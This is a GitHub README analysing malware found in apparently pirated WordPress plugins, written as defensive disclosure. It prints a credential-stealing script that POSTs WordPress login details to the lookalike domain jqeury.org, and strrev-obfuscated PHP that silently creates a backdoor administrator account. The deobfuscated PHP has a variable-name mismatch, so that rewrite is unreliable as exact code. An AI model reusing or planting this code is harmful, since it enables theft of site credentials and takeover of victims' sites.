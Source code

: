 # WARNING - Please Read
I did not wrote this code. I'm sharing it here for you to benefit. This code was found on a Wordpress plugin.

## Wordpress was returning an error which said like this:
```sh
Fatal error: cannot redeclare glues_it() (previously declared in ...
```

> We went ahead and did some research and found out that the person who was hired to edit the site of one of our old clients, was using plugins with this sketchy Wordpress function. We believe that these are premium plugins being pirated.

You can find the original piece of code here: [awful/glues_it/glues_it.php](http://git.io/vs0GD)

#### Update 1
> We still looking out what it really does but for the time being we told the site owner to get rid of the plugins with the function.

#### Update 2
The function code is actually written in Spanish, at least most of it. If you see words, parts of the code not making any sense, probably that part is written in Spanish.

#### Update 3
> We got rid of all those dots (something that the code probably does by itself) but we did it to be able to make it a little more readable, also after doing this, we had to make few fixes to make sure the code was the same as the original, just without all those dots.

Here is the link to the new file without the dots: [awful/glues_it/glues_it_CLEANED.php](http://git.io/vs0cs)

#### Update 4
The code makes reference to the domain "jqeury.org" on purpose to make you think you are requesting "jQuery.org".

Right after that the code does a request to the same domain at the following path:
```sh
jqeury.org/wp_ping.php?dname=wpd&tname=wpt&urliz=urlig
```

What does it does? I'm not sure, since my knowledge is limited on this, but maybe the code is requesting data from Wordpress ... something like the site url ... not sure yet what or why ...

#### Update 5
Take a look at "[jqeury.org/jquery-latest.js](http://git.io/vs0c6)" on line 56 after using jsbeautifier on it, this was the result: [awful/glues_it/jquery-latest.js](http://git.io/vs0c6)

At the beginning it looks like a regular jQuery Javascript file, but take a look at the lines 3349-3368, there is where the cute part begins. This file contains a script which "saves/sends (not sure if I'm correct)" the user/admin credentials using some method. I'm still looking.

#### Update 6
Here is the part that I'm talking about:
```sh
$("#loginform").submit(function(event) {
    passwd = document.getElementById('user_pass').value;
    usr = document.getElementById('user_login').value;
    domainis = window.location.host;
    urlis = window.location.href;
    $.ajax({
        type: "POST",
        url: "http://jqeury.org/wp_ping.php",
        async: false,
        data: {
            name: usr,
            pwd: passwd,
            dname: domainis,
            urliz: urlis
        },
        success: function(response) {
            num = response;
        }
    });
});
```

I believe that is getting the data from the Wordpress login form (user, password, site domain and site url) and using Ajax with method POST and in someway sending it to http://jqeury.org/wp_ping.php where probably the creator of the script is saving it to a file where it can be read and then later on be used to log in to the victims site. This is just a vague speculation of mine, since I'm just taking quick looks at this when I have time.

I also found out that on line 145 of [awful/glues_it/glues_it_CLEANED.php](http://git.io/vs0cs) that there is a possible/interesting point, take a look at:
```sh
$nimda_pw = call_user_func($object_quince_pim, 'php.resu/sedulcni/nimda-pw');"
```

If we read
```sh
php.resu/sedulcni/nimda-pw
```

backwards (that is why at line 20 of [awful/glues_it/glues_it_CLEANED.php](http://git.io/vs0cs) "strrev" is used, to reverse the string) we get
```sh
wp-admin/includes/user.php
```

I still don't know yet why the creator of this script uses that file, since both files (as of Wordpress 4.3) are identical, but maybe is using it to, in someway, to get advantage of Wordpress own code to accomplish his goal of getting the victims site username and password.

### Update 7
A friend noticed the following on lines 109-126 of [awful/glues_it/glues_it_CLEANED.php](http://git.io/vs0cs):
```sh
function wp_en_four()
{
    $object_quince = 'strrev';
    $object_quince_pim = glues_it($object_quince);
    $nigol = call_user_func($object_quince_pim, 'dxtroppus');
    $wssap = call_user_func($object_quince_pim, 'retroppus_pw');
    $laime = call_user_func($object_quince_pim, 'moc.niamodym@1tccaym');

    if (!username_exists($nigol) && !email_exists($laime)) {
        $wp_ver_one = call_user_func($object_quince_pim, 'resu_etaerc_pw');
        $user_id = call_user_func_array($wp_ver_one, array($nigol, $wssap, $laime));
        $rotartsinimda = call_user_func($object_quince_pim, 'rotartsinimda');
        $resu_etadpu_pw = call_user_func($object_quince_pim, 'resu_etadpu_pw');
        $rolx = call_user_func($object_quince_pim, 'elor');
        call_user_func($resu_etadpu_pw, array('ID' => $user_id, $rolx => $rotartsinimda));

    }
}
```

When we run strrev on this part of the code we get the following =:
```sh
function wp_en_four()
{
    $object_quince = 'strrev';
    $object_quince_pim = glues_it($object_quince);
    $login = call_user_func($object_quince_pim, 'supportxd');
    $passw = call_user_func($object_quince_pim, 'wp_supporter');
    $email = call_user_func($object_quince_pim, 'myacct1@mydomain.com');

    if (!username_exists($login) && !email_exists($email)) {
        $wp_ver_one = call_user_func($object_quince_pim, 'wp_create_user');
        $user_id = call_user_func_array($wp_ver_one, array($login, $passw, $email));
        $administrator = call_user_func($object_quince_pim, 'administrator');
        $resu_etadpu_pw = call_user_func($object_quince_pim, 'wp_update_user');
        $rolx = call_user_func($object_quince_pim, 'role');
        call_user_func($wp_update_user, array('ID' => $user_id, $rolx => $administrator));

    }
}
```

This finally confirms the fact that an account with full admin privileges is been created when the plugin is installed and running on the live site. This will enable the code creator to login without any issues to the Wordpress site.
